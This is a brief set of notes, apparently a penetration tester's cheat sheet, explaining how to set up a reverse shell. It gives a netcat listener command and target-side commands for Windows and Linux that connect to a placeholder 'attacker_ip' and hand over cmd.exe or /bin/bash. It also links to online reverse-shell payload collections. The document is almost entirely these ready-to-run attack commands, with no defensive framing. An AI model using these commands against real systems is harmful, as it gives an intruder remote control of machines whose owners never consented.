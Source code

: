 
###### How to set up a reverse shell 

Attacker machine: set up netcat listener -> `nc -nvlp 1234 `
Target machine: connect to listener --> 
	Voor windows target: `nc.exe -nv attacker_ip 1234 -e cmd.exe `
	Voor linux target:` nc -nv attacker_ip 1234 -e /bin/bash `

#### Reverse shell cheatsheet 

https://github.com/swisskyrepo/PayloadsAllTheThings 
https://www.revshells.com provide the code to get a reverse shell without netcat installed on the target system. 